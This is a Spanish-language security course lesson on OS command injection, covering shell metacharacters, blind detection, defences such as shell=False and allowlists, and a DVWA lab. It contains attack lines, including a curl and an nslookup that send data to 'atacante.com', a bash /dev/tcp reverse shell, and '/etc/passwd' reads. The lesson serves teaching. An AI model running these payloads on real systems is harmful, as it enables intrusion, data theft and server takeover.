

# Clase 095 — Inyección de comandos del sistema operativo

> Parte: **4 — Seguridad de aplicaciones web** · Fuente: *The Web Application Hacker's Handbook (Stuttard & Pinto)*
> ⏱️ Duración estimada: **100 min** · Nivel: **Avanzado**

---

## 🎯 Objetivo

Explotar la **inyección de comandos del SO (OS command injection)**: cuando una aplicación pasa entrada del usuario a un shell del sistema, un atacante puede ejecutar comandos arbitrarios. Es una de las vulnerabilidades de mayor impacto porque suele derivar en ejecución remota de código (RCE).

> ⚠️ **Ética**: RCE es de máximo impacto. Practica **exclusivamente** en DVWA, PortSwigger labs o entornos con autorización escrita. Ejecutar comandos en sistemas ajenos es un delito grave.

## 📚 Resultados de aprendizaje

Al finalizar, el alumno podrá:

1. **Identificar** puntos donde el input llega a un comando del sistema.
2. **Encadenar** comandos con metacaracteres del shell (`;`, `|`, `&&`, `$()`).
3. **Explotar** command injection ciega con técnicas temporales y OOB.
4. **Estabilizar** una shell reversa en un laboratorio controlado.
5. **Recomendar** evitar shells y usar APIs seguras como defensa.

## 🗺️ Temas

| # | Tema | Por qué importa |
|---|------|-----------------|
| 1 | Cómo el input llega al shell | Causa raíz del fallo |
| 2 | Metacaracteres de encadenado | Herramienta básica de explotación |
| 3 | Command injection ciega | Sin salida visible |
| 4 | Detección temporal y OOB | Confirmar sin ver output |
| 5 | Reverse shell en lab | Demostrar impacto real |
| 6 | Diferencias Linux/Windows | Sintaxis del shell varía |
| 7 | Defensa: evitar system(), allowlists | Cierre del fallo |

## 🧠 Explicación en profundidad

### Del navegador a una shell del sistema operativo

La inyección de comandos del sistema operativo es de las vulnerabilidades más graves porque su
consecuencia directa es la **ejecución de código en el servidor** (RCE): el atacante deja de
manipular la aplicación y pasa a controlar la máquina que la aloja. Ocurre cuando la aplicación
toma entrada del usuario y la incorpora a un **comando del sistema** que ejecuta —por ejemplo,
una función que llama a `ping`, `nslookup`, `convert` o cualquier utilidad del sistema pasándole
un argumento que viene del usuario—. Si ese argumento no se controla, el atacante añade **sus
propios comandos**. Es la misma causa raíz que la SQLi —datos que cruzan a un intérprete— pero
el intérprete aquí es la **shell del sistema**, y por eso el impacto es máximo.

### Los metacaracteres que encadenan comandos

La shell interpreta ciertos caracteres como **separadores o encadenadores** de comandos, y son
la munición del ataque. `;` ejecuta un comando tras otro; `|` conecta la salida de uno con la
entrada del siguiente; `&&` y `||` ejecutan condicionalmente; y los **backticks** `` `...` `` o
`$(...)` ejecutan un comando y sustituyen su resultado. Si una aplicación construye
`ping -c 1 " + entrada` y el usuario envía `8.8.8.8; cat /etc/passwd`, la shell ejecuta el ping
**y después** el `cat`. Reconocer estos metacaracteres es entender de un vistazo cómo se
inyecta un comando.



### Cuando no ves la salida: inyección ciega

Como en SQL, muchas veces la aplicación ejecuta el comando pero **no muestra su salida**. Ahí se
aplica exactamente la misma lógica de la clase 092. Para **confirmar** que hay inyección sin ver
nada, se usa el **retardo**: inyectar `; sleep 5` (Linux) o `& timeout 5` (Windows) y observar si
la respuesta tarda cinco segundos de más. Para **extraer** datos, se usa el canal
**out-of-band**: hacer que el servidor ejecute `nslookup $(whoami).atacante.com` o `curl
http://atacante.com/$(cat secreto)`, de modo que el dato viaje en el nombre DNS o en la URL hacia
un servidor del atacante. Estas técnicas ciegas son las que encuentran las inyecciones que un
vistazo rápido pasaría por alto.

### Diferencias por sistema y la única defensa que funciona

Los detalles cambian entre **Linux y Windows**: distintos comandos (`cat` vs `type`, `id` vs
`whoami`), distinta sintaxis de encadenado y distintas rutas, así que identificar el sistema
operativo subyacente orienta el ataque. En un laboratorio autorizado, el objetivo final suele ser
una **reverse shell** (clase 073) que dé acceso interactivo. Pero el mensaje central de la clase
es la **defensa**, y aquí es tajante: la solución **no** es filtrar metacaracteres —siempre se
encuentra una forma de evadir el filtro—, sino **no invocar la shell en absoluto**. La causa raíz
es usar funciones como `system()`, `exec()` o `os.system()` que pasan una cadena a la shell; la
alternativa segura es usar APIs que ejecutan un programa **con sus argumentos como una lista**
(`subprocess.run([...], shell=False)` en Python, `execFile` en Node), de modo que la entrada del
usuario es **siempre** un argumento y **nunca** puede convertirse en un comando. Complementado con
**allowlists** de valores permitidos cuando de verdad hay que llamar a un programa externo, esto
elimina la clase entera de fallo, igual que las consultas parametrizadas eliminan la SQLi.

## 📖 Definiciones y características

- **OS command injection**: ejecución de comandos del sistema vía input no sanitizado. Característica: suele acabar en RCE.
- **Metacaracter de shell**: símbolo que combina comandos (`;`, `&&`, `|`, `` ` ``, `$()`). Característica: rompe el comando previsto.
- **Blind command injection**: no hay output; se infiere por tiempo o interacción externa. Característica: se confirma con `sleep` o `nslookup`.
- **Reverse shell**: la víctima conecta de vuelta al atacante. Característica: da control interactivo en el lab.
- **Argument injection**: se inyectan flags a un binario, no comandos nuevos. Característica: más sutil pero explotable.
- **Allowlist**: lista cerrada de valores permitidos. Característica: defensa robusta frente a blocklists.

## 📔 Glosario

| Término | Definición concisa |
|---------|--------------------|
| Inyección de comandos | Entrada del usuario ejecutada como comando del sistema |
| RCE | Ejecución remota de código; el impacto de esta clase |
| Shell del sistema | Intérprete al que llega la entrada sin controlar |
| Metacaracter | `;` `&&` backtick `$()` y la barra vertical; encadenan o sustituyen comandos |
| `system()` / `exec()` | Funciones que pasan una cadena a la shell; la causa raíz |
| Inyección ciega | El comando se ejecuta pero no se ve la salida |
| Confirmación por tiempo | `sleep`/`timeout` para detectar sin ver la salida |
| Out-of-band | Exfiltrar por DNS/HTTP a un servidor del atacante |
| Reverse shell | Acceso interactivo obtenido tras el RCE |
| Diferencias Linux/Windows | Comandos y sintaxis distintos según el SO |
| shell=False | Ejecutar con argumentos como lista, sin invocar la shell |
| execFile / subprocess | APIs que separan programa y argumentos |
| Allowlist | Lista de valores permitidos cuando hay que llamar a un programa |
| No filtrar, no invocar | La defensa: evitar la shell, no perseguir metacaracteres |

## 🧰 Herramientas y preparación

- **DVWA** (*Command Injection*) y **PortSwigger labs** de OS command injection.
- **Burp** para editar peticiones.
- **netcat** para escuchar la reverse shell en tu propia máquina de laboratorio.

```bash
# En tu máquina atacante (lab): escuchar
nc -lvnp 4444
```

## 🧪 Laboratorio guiado

> ⚠️ Solo en DVWA/labs propios y aislados.

1. En DVWA → *Command Injection*, envía una IP normal (`127.0.0.1`) y observa el `ping`.
2. Encadena un comando: `127.0.0.1; whoami` y verifica que se ejecuta.
3. Prueba otros separadores: `| id`, `&& uname -a`, `$(id)`.
4. Para command injection **ciega** (sin output), confirma con tiempo: `127.0.0.1; sleep 5`.
5. Alternativa OOB: `127.0.0.1; nslookup $(whoami).tu-collaborator` y observa la interacción DNS.
6. En un lab aislado, lanza una reverse shell hacia tu netcat:

```bash
127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.0.0.5/4444 0>&1'
```

7. Documenta cada payload, la evidencia y el nivel de acceso obtenido.

## ✍️ Ejercicios

1. Enumera 5 metacaracteres distintos y en qué se diferencian al encadenar.
2. Confirma una inyección ciega solo con retardo temporal.
3. Adapta un payload de Linux a su equivalente en Windows (`&`, `%COMPUTERNAME%` o `%USERNAME%`).
4. Explica la diferencia entre command injection y argument injection.
5. Escribe la versión segura en Python usando `subprocess` con lista de argumentos (sin `shell=True`).
6. Diseña una allowlist para un campo que solo debe aceptar una IP.

## 📝 Reto verificable

Consigue **ejecución de comandos** en DVWA nivel Medium (que filtra algunos caracteres) evadiendo el filtro, y demuestra el acceso listando `/etc/passwd`.
**Criterio de aceptación**: entregas el payload que evade el filtro, la evidencia de lectura de `/etc/passwd` y la corrección de código que eliminaría la vulnerabilidad.

## ⚠️ Errores comunes

| Síntoma / mensaje | Causa y cómo arreglar |
|-------------------|------------------------|
| El separador se filtra | Nivel Medium bloquea `;`/`&&`; prueba `\|` o encoding |
| No hay salida | Inyección ciega; usa tiempo u OOB |
| Reverse shell no conecta | Firewall/NAT del lab; revisa IP y puerto |
| Comando no existe en Windows | Sintaxis distinta; usa comandos nativos |
| Falso positivo por latencia | Repite la prueba de `sleep` varias veces |

## ❓ Preguntas frecuentes

**❓ ¿Por qué es tan grave?**
Porque ejecutar comandos suele equivaler a controlar el servidor (RCE), el peor escenario posible.

**❓ ¿`shell=True` es el problema?**
A menudo sí. Pasar input a un shell es la causa. Usa APIs que reciban argumentos como lista, sin intérprete de shell.

**❓ ¿Escapar caracteres basta?**
Es frágil. Mejor evitar el shell por completo y validar con allowlists estrictas.

## 🔗 Referencias

- Stuttard & Pinto, *The Web Application Hacker's Handbook*, cap. 9 (OS command injection).
- OWASP Command Injection: <https://owasp.org/www-community/attacks/Command_Injection>
- PortSwigger OS command injection: <https://portswigger.net/web-security/os-command-injection>

## 📥 Material descargable

- 📄 [Guía en PDF](./clase-095-guia.pdf) — versión imprimible de esta clase.
- 🎞️ [Presentación (PPTX)](./clase-095-presentacion.pptx) — deck para proyectar en clase.

## ⬅️ Clase anterior

[Clase 094 — Inyección NoSQL](../094-inyeccion-nosql/README.md)

## ➡️ Siguiente clase

[Clase 096 — Cross-Site Scripting (XSS) reflejado](../096-cross-site-scripting-xss-reflejado/README.md)
